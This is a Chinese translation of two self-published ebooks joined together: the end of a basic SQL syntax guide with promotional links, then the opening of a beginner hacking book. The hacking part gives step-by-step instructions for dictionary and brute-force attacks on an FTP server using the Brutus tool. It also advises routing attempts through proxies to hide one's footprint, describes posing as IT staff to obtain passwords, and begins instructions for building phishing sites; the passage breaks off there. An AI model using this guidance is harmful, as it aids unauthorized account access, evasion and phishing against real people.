- WHERE 子句 –

```sql
SELECT column1, column2....columnN
FROM   table_name
WHERE  CONDITION;
```

- AND/OR 子句 –

```sql
SELECT column1, column2....columnN
FROM   table_name
WHERE  CONDITION-1 {AND|OR} CONDITION-2;
```

- IN 子句 –

```sql
SELECT column1, column2....columnN
FROM   table_name
WHERE  column_name IN (val-1, val-2....val-N);
```

- BETWEEN 子句 –

```sql
SELECT column1, column2....columnN
FROM   table_name
WHERE  column_name BETWEEN val-1 AND val-2;
```

- LIKE 子句 –

```sql
SELECT column1, column2....columnN
FROM   table_name
WHERE  column_name LIKE { PATTERN };
```

- ORDER BY 子句 –

```sql
SELECT column1, column2....columnN
FROM   table_name
WHERE  CONDITION
ORDER BY column_name {ASC|DESC};
```

- GROUP BY 子句 –

```sql
SELECT SUM(column_name)
FROM   table_name
WHERE  CONDITION
GROUP BY column_name;
```

- COUNT 子句 –

```sql
SELECT COUNT(column_name)
FROM   table_name
WHERE  CONDITION;
```

- HAVING 子句 –

```sql
SELECT SUM(column_name)
FROM table_name
WHERE CONDITION
GROUP BY column_name
HAVING (arithmetic function condition);
```

### CREATE TABLE 命令

```sql
CREATE TABLE table_name(
column1 datatype,
column2 datatype,
column3 datatype,
.....
columnN datatype,
PRIMARY KEY( one or more columns )
);
```

### DROP TABLE 命令

```sql
DROP TABLE table_name;
```

### CREATE INDEX 命令

```sql
CREATE UNIQUE INDEX index_name
ON table_name ( column1, column2,...columnN);
```

### DROP INDEX 命令

```sql
ALTER TABLE table_name
DROP INDEX index_name;
```

### DESC 命令

```sql
DESC table_name;
```

### TRUNCATE TABLE 命令

```sql
TRUNCATE TABLE table_name;
```

### ALTER TABLE 命令

```sql
ALTER TABLE table_name {ADD|DROP|MODIFY} column_name (data_type);
```

### ALTER TABLE 命令（用于重命名表）

```sql
ALTER TABLE table_name RENAME TO new_table_name;
```


## INSERT INTO 命令

```
INSERT INTO table_name( column1, column2....columnN)
VALUES ( value1, value2....valueN);
```

## UPDATE 命令

```
UPDATE table_name
SET column1 = value1, column2 = value2....columnN=valueN
[ WHERE  CONDITION ];
```

## DELETE 命令

```
DELETE FROM table_name
WHERE {CONDITION};
```

## CREATE DATABASE 命令

```
CREATE DATABASE database_name;
```

## DROP Database 命令

```
DROP DATABASE database_name;
```

## USE 命令

```
USE DATABASE database_name;
```

## COMMIT 命令

```
COMMIT;
```

## ROLLBACK 命令

```
ROLLBACK;
```

## 第 4 章：SQL 中的不同数据类型

在 SQL 语言中，数据类型是一个决定任何数据库对象类型的特征。所有列、变量和表达式在 SQL 中都涉及数据类型。

你应该在生成新表时指明数据类型。此外，你必须根据需要为表选择数据类型。

此计算机语言支持许多类型的数据。让我们将这些类型分为六大类：

- 1. **精确数值**

| 数据类型 | 从 | 到 |
|---|---:|---:|
| Bigint | -9,223,372,036,854,775,808 | 9,223,372,036,854,775,807 |
| Int | -2,147,483,648 | 2,147,483,647 |
| Smallint | -32,768 | 32,767 |
| Tinyint | 0 | 255 |
| Bit | 0 | 1 |
| Decimal | -10^38 + 1 | 10^38 - 1 |
| Numeric | -10^38 + 1 | 10^38 - 1 |
| Money | -922,337,203,685,477.5808 | +922,337,203,685,477.5807 |
| Smallmoney | -214,748.3648 | +214,748.3647 |

- 2. **近似数值**

| 数据类型 | 从 | 到 |
|---|---:|---:|
| Float | -1.79E + 308 | 1.79E + 308 |
| Real | -3.40E + 38 | 3.40E + 38 |

- 3. **时间和日期**

| 数据类型 | 从 | 到 |
|---|---|---|
| Datetime | Jan 1, 1753 | Dec 31, 9999 |
| Smalldatetime | Jan 1, 1900 | Jun 6, 2079 |
| Date | 存储像 June 30, 1991 这样的日期 |  |
| Time | 存储像 12:30 P.M. 这样的一天中的时间 |  |

- 4. **字符字符串 – 这分为两个子类别：**

### 1. Unicode 字符串

| 数据类型 | 描述 |
|---|---|
| Nchar | 最大长度为 4,000 个字符。（定长 Unicode） |
| Nvarchar | 最大长度为 4,000 个字符。（变长 Unicode） |
| nvarchar(max) | 最大长度为 2^31 个字符（仅 SQL Server 2005）。（变长 Unicode） |
| Ntext | 最大长度为 1,073,741,823 个字符。（变长 Unicode） |

### 2. 非 Unicode 字符串

| 数据类型 | 从 | 到 |
|---|---|---|
| Char | Char | 最大长度为 8,000 个字符。（定长非 Unicode 字符） |
| Varchar | Varchar | 最大为 8,000 个字符。（变长非 Unicode 数据）。 |
| varchar(max) | varchar(max) | 最大长度为 2^31 个字符，变长非 Unicode 数据（仅 SQL Server 2005）。 |
| Text | text | 变长非 Unicode 数据，最大长度为 2,147,483,647 个字符。 |

### 5. 二进制

| 数据类型 | 描述 |
|---|---|
| Binary | 最大长度为 8,000 字节。（定长二进制数据） |
| Varbinary | 最大长度为 8,000 字节。（变长二进制数据） |
| varbinary(max) | 最大长度为 2^31 字节（仅 SQL Server 2005）。（变长二进制数据） |
| Image | 最大长度为 2,147,483,647 字节。（变长二进制数据） |

### 6. 杂项

此类别涉及以下数据类型：

- timestamp – 此数据类型存储一个唯一数字，每当行被更新时该数字就会更新。你可以在数据库的任何部分访问此唯一数字。
- xml – 此数据类型存储 XML（即可扩展标记语言）信息。你可以将 XML 数据保存在列或变量中。
- table – 此类型保存数据库查询的结果，以便你可以使用

## 第 5 章：SQL 语言中的运算符

运算符是可用于 SQL 命令的保留字或字符。一般来说，运算符用于命令的 WHERE 部分以执行操作（例如比较、数学运算等）。

你可以在 SQL 语句中使用运算符来指定条件。在某些情况下，如果你的命令涉及多个条件，你可能会将运算符用作连词。

本章将讨论 SQL 支持的四种运算符类型：

- 逻辑运算符
- 算术运算符
- 比较运算符
- 可以使条件无效的运算符

### 逻辑运算符

这些是在 SQL 计算机语言中可使用的逻辑运算符：

- IN – 你可以使用此运算符将值与指定的字面值进行比较。
- OR – 此运算符在 SQL 命令的 WHERE 部分组合各种条件。
- AND – 此运算符允许你在 SQL 命令的 WHERE 子句中包含多个条件。
- ALL – 此运算符将值与不同值集内部的值进行比较。
- ANY – 此运算符使用条件执行比较。
- LIKE – 此运算符使用通配符运算符将值与相似的值进行比较。
- UNIQUE – 此运算符检查条目的唯一性。为此，UNIQUE 运算符扫描整个表并搜索冗余数据。
- EXISTS – 此运算符搜索符合指定条件的行。
- BETWEEN – 此运算符搜索在一定范围内的值。使用 BETWEEN 时，你应指明最高值和最低值。
- IS NULL – 此运算符将值与 NULL 值进行比较。

### 算术运算符

为了帮助你理解这些运算符，让我们使用两个示例变量：x = 1; y = 2。

- “ + ” – 你应使用此运算符执行加法。例如，x + y = 3。
- “ - ” – 你必须使用此运算符执行减法。它将从左操作数中减去右操作数的值。例如，y – x = 1。
- “ * ” – 你在执行乘法时应使用此运算符。示例：x * y = 2。
- “ / ” – 你在执行除法时应使用此运算符。例如：y / x = 2。

### 比较运算符

假设 x = 2 且 y = 4。

- “ = ” – 此运算符检查两个值的相等性。如果值相等，则条件为真。例如：(x = y) 不为真。
- “ != ” – 此运算符检查两个值的相等性。如果值不相等，则条件为真。例如：(y != x) 为真。
- “ <> ” – 此运算符与“ != ” 相同。例如：(x <> y) 为真。
- “ > ” – 此运算符检查左操作数的值是否大于右操作数的值。如果是，则条件为真。例如：(y > x) 为真。
- “ < ” – 此运算符检查左操作数的值是否小于右操作数的值。如果是，则条件为真。例如：(x < y) 为真。
- “ >= ” – 此运算符检查左操作数的值是否大于或等于右操作数的值。如果是，则条件为真。例如：(y >= x) 为真。
- “ <= ” – 此运算符检查左操作数的值是否小于或等于右操作数的值。如果是，则条件为真。例如：(x <= y) 为真。

### 可以使条件无效的运算符

- NOT – 此运算符可以反转你将与之一起使用的逻辑运算符的功能。例如：NOT IN、NOT EXISTS、NOT BETWEEN 等。

## 第 6 章：SQL 表达式

基本上，表达式是一组值、函数和运算符。SQL 表达式可以帮助你评估数据库值。

在此计算机语言中，表达式是你必须使用查询语言编写的公式。你也可以使用表达式运行数据库查询以获取某些信息。

### 语法

以下是 SELECT 命令的格式：

```sql
SELECT column1, column2, columnN
FROM table_name
WHERE [CONDITION EXPRESSION];
```

现在，让我们谈谈 SQL 支持的表达式：

*布尔表达式* — 这些表达式通过匹配单个值来检索数据。
以下是布尔表达式的基本语法：

```sql
SELECT column1, column2, columnN
FROM table_name
WHERE SINGLE VALUE MATCHING EXPRESSION;
```

*数值表达式* — 你可以使用这些表达式在数据库查询中进行数学运算。以下是你应使用的语法：

```sql
SELECT numerical expression as OPERATION NAME
[FROM table_name
WHERE CONDITION] ;
```

日期表达式 — 这些表达式为你提供系统的日期和时间信息。


## 第 7 章：如何在你的数据库中使用 SQL

本章将教你如何在自己的数据库中应用SQL命令。通过阅读本材料，你将能够使用SQL计算机语言与关系数据库进行交互。本材料非常重要，因为它将帮助你在短短两周内掌握SQL的基础知识。

### 如何创建数据库

要创建新数据库，应使用CREATE DATABASE命令。以下是应遵循的语法：

```
CREATE DATABASE DatabaseName;
```

重要提示：关系数据库管理系统要求数据库名称唯一。

让我们使用CREATE DATABASE命令来生成一个新数据库。

```
CREATE DATABASE sample;
```

上述命令将创建一个名为“sample”的新数据库。

重要提示：如果你没有管理员权限，将无法创建新数据库。

### 如何创建表

如果你正在创建新表，应该为该表命名并定义其列和支持的数据类型。应使用CREATE TABLE命令来完成此任务。以下是应遵循的语法：

```
CREATE TABLE table_name(
  column1 datatype,
  column2 datatype,
  column3 datatype,
  .....
  columnN datatype,
  PRIMARY KEY( one or more columns )
);
```

基本上，“CREATE TABLE”是一个关键词，通知系统你想要创建一个新表。你的表的标识符或名称位于CREATE TABLE命令之后。

然后，创建一个列表，定义要使用的列和数据类型。如果这有点令人困惑，别担心。分析下面给出的示例后，你就会明白。

### 如何从现有表创建新表

你可以通过组合两个命令来复制现有表：SELECT和CREATE TABLE。

默认情况下，你得到的表将具有旧表的列定义。但是，你可以从旧表中选择某些列并舍弃其他列。这意味着你可以根据需要修改新表。

如果你成功使用此命令，新表将获取旧表的当前值。以下是应使用的语法：

```
CREATE TABLE NEW_TABLE_NAME AS
   SELECT { column1, column2...columnN }
   FROM EXISTING_TABLE_NAME
   [ WHERE ]
```

例如，你想使用名为EMPLOYEES的表生成一个新表（假设你想称它为“COMPENSATION”）。然后，你想复制EMPLOYEES表中的两列：NAME和SALARY。要完成此任务，可以使用以下SQL代码：

```sql
CREATE TABLE COMPENSATION AS

  SELECT NAME, SALARY

  FROM EMPLOYEES;
```

上述代码创建了一个名为COMPENSATION的新表，它有两列：NAME和SALARY。此外，这些列将获取旧表（即EMPLOYEES）中的值。

### 如何删除表

你可以使用DROP TABLE命令删除表及其包含的所有信息（例如数据、约束、索引等）。

重要提示：使用此命令时必须小心。请记住，它涉及永久删除存储的信息。如果你删除了错误的表，你的数据库将面临严重问题。

此命令的语法为：

```
DROP TABLE (在此处插入表名);
```

例如：*DROP TABLE sample*

上述命令从数据库中删除名为“sample”的表。

### 如何添加新数据行

INSERT INTO命令允许你向现有表中添加新数据行。此命令涉及两种语法：

### 第一种语法

```
INSERT INTO TABLE_NAME (column1, column2, column3,...columnN)
VALUES (value1, value2, value3,...valueN);
```

如果要在特定列中添加数据，应使用此语法。

### 第二种语法

```
INSERT INTO TABLE_NAME VALUES (value1,value2,value3,...valueN);
```

如果要在表的所有列中添加值，必须使用此语法。这意味着你无需标识正在处理的列。但是，请确保值的顺序与表中现有列的顺序相同。

### 如何从表中检索数据

你可以使用SELECT命令从表中检索数据。在这里，SQL将搜索结果呈现为一个新表。这些新表称为“结果集”。

SELECT命令的语法是：

```
SELECT column1, column2, columnN FROM table_name;
```

在此语法中，column1、column2等是你要检索的字段。如果要检索表中的所有字段，可以使用以下语法：

```
SELECT * FROM table_name;
```

### WHERE子句

WHERE是一个SQL子句，用于在从所选表中检索信息时指定条件。

如果满足指定条件，此子句将从表中检索特定值。通常，应使用WHERE来筛选和检索所需记录。

你还可以在其他SQL命令（如DELETE和UPDATE）中使用WHERE。你将在稍后了解这些命令。

应使用的语法是：

```sql
SELECT column1, column2, columnN
FROM table_name
WHERE [condition]
```

你可以使用逻辑或比较运算符为WHERE子句设置条件。

### 如何组合各种条件

SQL允许你在数据库查询中组合不同的条件。你只需在SQL命令中包含OR和AND运算符。SQL用户将OR和AND称为连接运算符。

基本上，连接运算符允许你在单个SQL命令中执行多个比较。让我们先讨论OR：

### OR

你可以使用此运算符组合命令WHERE子句中的各种条件。此运算符的语法是：

```
SELECT column1, column2, columnN
FROM table_name
WHERE [condition1] OR [condition2],...OR [conditionN]
```

N表示可以使用OR组合的条件数量。只有当指定的条件之一为真时，SQL语句才会执行操作。

### AND

此运算符允许你在SQL命令的WHERE子句中放置多个条件。以下是应使用的语法：

```
SELECT column1, column2, columnN
FROM table_name
WHERE [condition1] AND [condition2],...AND [conditionN]
```

“N”表示可以组合的条件数量。请记住，只有当所有条件都为真时，SQL命令才会执行操作。

### 如何修改现有记录

在SQL语言中，你可以使用UPDATE查询编辑现有记录。此查询应用于WHERE子句，允许你编辑数据行。以下是应使用的语法：

```
UPDATE table_name
SET column1 = value1, column2 = value2..., columnN = valueN
WHERE [condition];
```

### 如何删除记录

如果要删除记录，可以使用SQL的DELETE查询。你可以将此查询与SELECT结合以删除特定行。另一方面，你可以将DELETE用作独立查询来删除所有数据行。以下是此查询的语法：

```
DELETE FROM table_name
WHERE [specify your condition/s];
```

如果需要删除表中的所有记录，只需删除WHERE子句即可。因此，语法将为：

```
DELETE FROM table_name;
```

### 如何通过通配符运算符执行比较

在SQL中，你可以使用通配符运算符将某个值与相似值进行比较。你只需在SQL命令的LIKE子句中包含这些运算符即可。以下是可与LIKE一起使用的通配符运算符：

- 下划线（即“ _ ”）
- 百分号（即“ % ”）

如果要表示单个字符或数字，应使用下划线。如果要表示0、1或多个字符，则必须使用百分号。你可以在SQL语句中组合这些通配符运算符。

以下是通配符运算符的语法：

```
SELECT * FROM table_name
WHERE column LIKE 'XXXX%'

or

SELECT * FROM table_name
WHERE column LIKE '%XXXX%'

or

SELECT * FROM table_name
WHERE column LIKE 'XXXX_'

or

SELECT * FROM table_name
WHERE column LIKE 'XXXX'

or

SELECT * FROM table_name
WHERE column LIKE '_XXXX_'
```


## 如何使用 TOP 子句

TOP 子句允许您从数据表中检索指定数量或百分比的记录。

重要提示：某些数据库不兼容此子句。例如，MySQL 使用 LIMIT 来检索记录。

带有 TOP 子句的 SELECT 命令的语法如下：

```sql
SELECT TOP number|percent column_name(s)
FROM table_name
WHERE [condition]
```

## 如何对数据进行排序

SQL 提供了 ORDER BY 子句，该子句根据您用作基准的列，以降序或升序对数据进行排序。您应使用的语法如下：

```sql
SELECT column-list
FROM table_name
[WHERE condition]
[ORDER BY column1, column2, .. columnN] [ASC | DESC];
```

您可以在此子句中包含多个列。但是，请确保您想要使用的所有列都在 column-list 中。

## 如何混合多条 SELECT 命令的结果

在 SQL 中，您可以组合多条 SELECT 命令的结果，同时防止重复行。您只需使用 UNION 子句即可。

要使用此子句，您的 SELECT 语句应具有相同数量的选定列和列表达式。这些语句还必须具有相同的数据类型和列排列。但是，这些语句不需要具有相同的长度。

此子句的语法如下：

```sql
SELECT column1 [, column2 ]
FROM table1 [, table2 ]
[WHERE condition]

UNION

SELECT column1 [, column2 ]
FROM table1 [, table2 ]
[WHERE condition]
```

## 第 8 章：如何使用 SQL 组合记录

您可以使用 JOIN 子句来组合来自多个数据库的记录。基本上，JOIN 是一种可以组合不同表中字段的方法。

### JOIN 的不同类型

SQL 计算机语言支持不同类型的 JOIN。包括：

- SELF JOIN（自连接）——如果您想将表与自身连接，就像在处理不同的表一样，可以使用此连接。执行此操作时，您应该在 SQL 命令中至少重命名一个表。
- RIGHT JOIN（右连接）——此连接从右表中检索所有数据行。即使两个表之间不存在匹配项，SQL 也会完成此任务。
- LEFT JOIN（左连接）——此连接返回左表中的所有数据行。即使所涉及的表之间不存在匹配项，SQL 语言也会完成此操作。
- FULL JOIN（全连接）——如果其中一个表存在匹配项，此连接将检索数据行。
- INNER JOIN（内连接）——如果两个表都存在匹配项，则返回数据行。
- CARTESIAN JOIN（笛卡尔连接）——此连接从连接的表中检索记录集的笛卡尔值。

让我们详细讨论每种 JOIN：

### INNER JOIN（内连接）

这是 SQL 中最重要的连接之一。它通过混合不同表的列值生成一个新表。数据库查询会检查所有表的行，以确定是否存在满足连接谓词要求的行对。如果这些行对满足连接谓词，则将这些行的值放入新表中。以下是您应使用的语法：

```sql
SELECT table1.column1, table2.column2...
FROM table1
INNER JOIN table2
ON table1.common_field = table2.common_field;
```

### LEFT JOIN（左连接）

此连接检索左表中的所有数据行。即使右表没有任何匹配项，SQL 也会执行此操作。因此，如果您的命令中的 ON 子句与右表有 0 个匹配项，您仍然会从该过程中获得一个数据行。但是，右表中的列将包含 NULL 值。

此连接的语法为：

```sql
SELECT table1.column1, table2.column2...
FROM table1
LEFT JOIN table2
ON table1.common_field = table2.common_field;
```

### RIGHT JOIN（右连接）

此连接返回右侧表中的所有数据行。即使左表没有任何匹配项，SQL 语言也会执行此操作。基本上，即使您的命令中的 ON 子句与左表没有匹配项，您仍然会从该过程中获得至少一个数据行。但是，左表中的列将包含 NULL 值。

此连接的语法为：

```sql
SELECT table1.column1, table2.column2...
FROM table1
RIGHT JOIN table2
ON table1.common_field = table2.common_field;
```

### FULL JOIN（全连接）

此 SQL 连接混合了左连接和右连接的结果。新表将包含两个表中的所有记录。以下是您应使用的语法：

```sql
SELECT table1.column1, table2.column2...
FROM table1
FULL JOIN table2
ON table1.common_field = table2.common_field;
```

重要提示：FULL JOIN 使用 NULL 值来填充不匹配的记录。

### SELF JOIN（自连接）

如果您想将表与自身连接，则应使用此连接。如前所述，您必须在 SQL 语句中至少重命名其中一个表。

此连接的语法为：

```sql
SELECT a.column_name, b.column_name...
FROM table1 a, table1 b
WHERE a.common_field = b.common_field;
```

### CARTESIAN JOIN（笛卡尔连接）

此连接从您使用的表中检索记录集的笛卡尔积。因此，SQL 用户将其视为连接条件始终为真的 INNER JOIN。CARTESIAN JOIN 的语法为：

```sql
SELECT table1.column1, table2.column2...
FROM table1, table2 [, table3 ]
```

## 结论

再次感谢您下载本书！

我希望本书能够帮助您在短短两周内学习 SQL 的基础知识。

下一步是使用这门计算机语言创建和管理您自己的数据库。

最后，如果您喜欢这本书，我想请您帮个忙，您能在亚马逊上为本书留下评论吗？那将不胜感激！

[点击此处为本书在亚马逊上留下评论！](#)

另外，请务必订阅我的技术和编程通讯，以获得免费书籍并了解更多关于如何编程的知识。[点击此处](#)。

谢谢您，祝您好运！

**_[点击此处获取使用 Bluehost 设置 Wordpress 站点的分步说明。](#)_**

## 附赠：获取更多由我撰写的免费书籍！

感谢您阅读我的书！我希望您从中获得了巨大的价值。为了表示感谢，我想为您提供更多免费书籍以及与编程和技术相关的信息！

只需点击下面的链接并在我的网站上输入您的电子邮件地址！

如果您认真想要提升您的编程技能，您将获得的所有内容都会对您有用。我将提供：

- 更多由我撰写的书籍
- 我是如何以创纪录的时间学会编程的
- 关于我最喜欢的编程相关产品的信息
- 以及更多！

[点击此处获取所有这些信息！](#)

如果您还没有查看过我的新网站 *KindleBookSpot.com*，请务必去看看。这是我一直在做的一个新项目，我真诚地希望它能对读者有价值。我创建这个网站是因为我想让大家更容易在一个地方找到最热门的特价 kindle 书籍。以下是我的网站所提供内容的一些详细信息：

- 畅销免费 kindle 书籍列表
- 折扣小说和非小说类书籍
- 每周一书
- 精选书籍
- 在我的网站上推广您自己的书

这个网站不仅面向读者，也是新兴作者在成为畅销书之前推广他们新书的地方。所以如果您想推广自己的书，请访问我的网站 *KindleBookSpot.com*。

我希望这个网站对您有用，也希望在那里见到您！

订阅我们在 KindleBookSpot 不断壮大的社区，以便在最优秀的书籍打折和免费时收到通知。

# 黑客训练营

## 学习计算机黑客的基础知识

*更多折扣书籍请访问 [kindlebookspot.com](https://kindlebookspot.com)*

## 目录

- 简介
- 第1章：黑客 – 一般信息
- 第2章：编程技能
- 第3章：密码
- 第5章：渗透测试
- 结论

## 简介

我想感谢并祝贺您下载了《*学习计算机黑客的基础知识（安全、渗透测试、如何黑客）*》这本书。

本书包含有关如何黑客计算机网络的经过验证的步骤和策略。

这本电子书将教您与黑客相关的基本思想和概念。它将解释经验丰富的黑客使用的工具、方法和技术。通过阅读这些材料，您可以对目标网络进行侦察和软件攻击。

再次感谢您下载本书，希望您喜欢！


## 开始之前 … 福利：获取更多由我提供的免费书籍！

感谢阅读我的书！希望你能从中获得极大的价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢你！

只需点击下方链接，并在我的网站上输入你的电子邮箱地址！

如果你真心想改变自己的编程技能，你获得的一切都会对你有用。我将提供：

- 我写的更多书籍
- 我如何在创纪录的时间内学会编程
- 关于我最喜欢的编程相关产品的信息
- 以及更多内容！

**更多详情见文末。**

## 第 1 章：黑客技术——概述

本书可以帮助你成为一名出色的计算机黑客。借助这些材料，你将能够：

- 像黑客一样思考——由于你会了解黑客技术中使用的方法和技巧，你可以攻击网络，或保护自己免受他人侵害。
- 了解“道德黑客行为”——你不必利用自己的技能入侵网络或窃取数据。在IT（即信息技术）领域，你可以运用新技能帮助企业及组织防范黑客攻击；因此，你可以通过做一名“好”黑客来赚钱。
- 让朋友和家人刮目相看——你可以向他人展示自己的黑客能力。这样，你就能建立起熟练程序员或计算机使用者的声誉。

### 黑客——他们是谁？

黑客是喜欢摆弄计算机网络或电子系统的人。他们热衷于探索计算机如何工作。根据计算机专家的说法，黑客主要分为两大类：

- 白帽黑客——这些人被称为“好黑客”。白帽黑客将自己的技能用于合法目的。他们通常会成为安全专家，保护公司和组织免受黑帽黑客（见下文）的侵害。
- 黑帽黑客——这一类包括将技能用于恶意/非法目的的黑客。这些黑客会攻击网络、破坏网站并窃取机密信息。

重要提示：这些术语源自西方电影，其中主角戴白帽，反派戴黑帽。

### 计算机黑客的层级

在本书这一部分，黑客会按照技能水平进行分类。请仔细研读这些材料，因为它可以帮助你衡量自己的进步。

- 准黑客——这一类别中的是初学者，他们并不真正清楚自己在做什么。这类黑客通常计算机技能较差。他们使用他人创建的程序和黑客工具，却不知道其工作原理。
- 中级黑客——这些黑客熟悉计算机、操作系统和编程语言。通常，中级黑客了解计算机脚本如何工作。然而，和准黑客一样，中级黑客不会创建自己的工具。
- 精英黑客——这一类别由经验丰富的黑客组成。一般来说，精英黑客会创建可用于攻击或防御计算机网络的有用工具和程序。此外，精英黑客能够访问系统而不被发现。所有黑客都想达到这一水平。

### 要求

你不可能一夜之间成为精英黑客。要获得必要技能，你必须耐心且坚韧。专注于你必须做的事情（例如编写自己的程序、练习黑客技能、阅读更多书籍等）。把时间和精力投入到能让你成为出色黑客的事情上，你就能迅速达到“精英”水平。

黑客专家声称，创造力很重要，尤其对初学者而言。有了创造力，你可以轻松找到同一个问题的多种解决方案。你不必担心资源或选择有限。如果你有足够的创造力，就一定能找到难题的出色答案。

你还应该渴望学习更多知识。黑客技术涉及复杂的过程，并且会随着时间推移不断演变。你应该愿意花数小时、数天甚至数周来研究网络结构和攻击策略。如果你没有时间或耐心进行这种细致工作，那么成为专家级黑客的机会微乎其微。

## 第 2 章：编程技能

要成为高效的黑客，你应当具备足够的编程技能。创建和操控计算机程序的能力会大有帮助。这种能力可以帮助你掩盖踪迹，或迷惑安全专家。不过，如果你想成为道德黑客，也可以用自己的技能来编写防御性计算机程序。

的确，你可以在网上购买现成的程序和黑客工具。这意味着你不编写任何程序，也可能发动黑客攻击或保护自己的网络。然而，依赖他人创建的程序无助于你成为出色的黑客。任何人都可以购买并使用黑客程序——但创建这样的程序需要技能和知识。

无论你是攻击、防御还是测试网络，都应当了解与该活动相关的一切。由于黑客攻击和系统测试都涉及程序，编程技能可以帮助你高效、准确地完成任务。

如果你懂得如何编程，那么你将享有以下好处：

- 其他黑客会把你视为专家。
- 你可以专门为自己的需求创建程序。例如，如果你需要阻止某种病毒，可以创建自己的安全程序来实现目标。你不必上网尝试各种往往很昂贵的杀毒程序。
- 你对自己的技能会更有信心。就像任何其他事业一样，如果一个人相信自己的技能，黑客技术就会容易和简单得多。

简而言之，不要依赖市场上现成的黑客程序。学习一些编程语言并掌握必要技能。这样做，你将进入一个全新的计算与黑客世界。

### 如何开始你的编程之旅？

如果你先学习 HTML，那会很好。HTML（即超文本标记语言）是一种构成你在网上看到的所有网站的编程语言。如果你计划攻击或建立一个网站，就必须知道如何使用 HTML 语言。大多数人认为 HTML 简单且易于掌握。这意味着，即使你以前从未编写过任何程序，也能轻松学会这门语言。

掌握 HTML 之后，你应该学习 C 编程语言。C 是当今最流行的计算机语言。它构成了黑客使用的大多数工具。它可以帮助你创建自己的病毒或防御性程序。

### 学习计划

下面是一份可以帮助你掌握任何编程语言的学习计划：

- 1. 购买一本关于你所选语言的“入门书”。购买之前，先阅读购买者撰写的评论。这样，你就不会把时间和/或金钱浪费在无用的材料上。
- 2. 一旦学会如何使用该语言，就必须定期练习。
- 3. 几乎所有编程书都包含练习和实践题。做这些练习和题目，进一步磨练你的技能。
- 4. 如果遇到任何困难，不要跳过或忽视它。试着理解那个“东西”如何运作，以及它与编程和/或黑客技术有什么关系。如果你跳过复杂的概念，就学不到多少东西。
- 5. 寻找面向程序员的在线论坛。大多数时候，有经验的程序员愿意帮助初学者。这意味着，在学习中遇到问题时，你只需上网请教“专业人士”。
- 6. 应用你所学的内容。如果你能用该语言创建自己的计算机程序，那会很好。

## 第 3 章：密码

如今，密码是网络和网站唯一的保护形式。如果你掌握了这条信息，就能完全访问所有者的账户。这就是黑客使用不同工具和技术来获取密码的原因。

### 密码破解——传统方法

下面的列表展示了用于破解密码的传统技术：

- 猜测——这种方法只对弱密码有效。例如，如果用户根据个人信息（如电话号码、出生日期、最喜欢的动物等）创建密码，你可以通过尝试各种可能性轻松确定密码。如果黑客知道某个

关于用户需要注意的几点。

- **肩部窥视** – 在这里，你会在目标输入密码时从他或她的肩膀上方窥视。这种方法如果目标是打字慢的人，可以获得极佳的效果。

- **社会工程学** – 在这种技术中，你会利用目标对你的信任来获取所需信息。例如，你可以打电话给目标并假装自己属于公司的IT部门。你可以告诉目标你需要他的密码，以便访问他的账户并进行一些重要更新。

## 密码破解 – 现代技术

在本节中，你将了解破解密码所使用的最新技术。

重要提示：本节使用了一些你需要安装的计算机程序。

### 字典攻击

在这种方法中，你必须使用一个包含常见密码的文本文件。你将尝试每个密码，看看哪个有效。这种方法简单易行。然而，你只能将其用于弱密码。为了帮助你理解这种技术，让我们分析以下示例：

黑客使用 Brutus（即一种流行的密码破解程序）来访问 FTP（即文件传输协议）服务器。

在讨论示例之前，让我们先谈谈 FTP 服务器。FTP 服务器允许你通过互联网发送或接收文件。如果黑客获得了某个网站 FTP 服务器的访问权限，他可能会篡改或删除该服务器内的文件。

现在，你准备好看示例了。开始吧：

- **1.** 黑客访问 FTP 服务器的登录页面。



- **2.** 然后，他启动 Brutus 来破解服务器的密码。



- **3.** 他指定服务器的类型（即 FTP）和 IP 地址。

- **4.** 他输入一个有效的用户名。

- **5.** 他选择包含密码列表的文本文件。

- **6.** 他点击“开始”按钮。Brutus 程序将连接到 FTP 服务器并尝试使用文本文件中的密码登录。如果过程成功，Brutus 将在其“正向身份验证结果”部分显示正确的密码。以下是截图：



重要提示：精英黑客在使用这种类型的计算机程序时都会使用代理。基本上，代理通过从另一台计算机传输连接请求来隐藏你的 IP 地址。这很重要，因为多次登录尝试会产生大量电子“足迹”。

### 暴力破解方法

IT 专家声称这种方法可以破解任何类型的密码。在这里，黑客会尝试所有可能的数字、字母和特殊符号组合，直到进入目标账户为止。这种方法的主要缺点是耗时。这是可以理解的——你必须尝试成千上万个可能的密码才能访问目标的账户。

这种方法的速度取决于两个因素：

- 密码的复杂性
- 计算机的处理能力

上一示例中使用的黑客工具 Brutus 也可对服务器发起暴力破解攻击。它的工作原理如下：

- **1.** 指定目标的 IP 地址和服务器类型。在“密码模式”部分，选择“暴力破解”并点击“范围”。下图将作为你的指南：



- **2.** 屏幕会显示一个对话框（见下文）。使用此对话框配置暴力破解方法。显然，如果你对目标密码有一些了解，你的工作会简单得多。例如，如果你知道网站要求密码为 5-10 个字符，你就能缩小可能性并缩短整个过程。



- **3.** 点击“确定”按钮。Brutus 将通过尝试所有可能的密码登录到目标服务器。你将在程序的 GUI（即图形用户界面）上看到结果。

### 钓鱼

在这种技术中，你会通过欺骗受害者来窃取机密信息（例如密码）。例如，一名黑客假装成银行代表并向目标用户发送电子邮件。电子邮件要求用户通过点击链接更改密码。当用户点击链接时，她看到一个与实际银行相似的网站。然而，该网站只是一个复制品。输入其中的任何信息都将发送到黑客的数据库或电子邮件账户。

重要提示：精英黑客使用 HTML 创建看起来像官方网站的钓鱼网站。

创建钓鱼网站时需要做的事项如下：

- **1.** 选择你的目标 – 大多数黑客会模仿电子邮件服务提供商的网站。原因有两个：
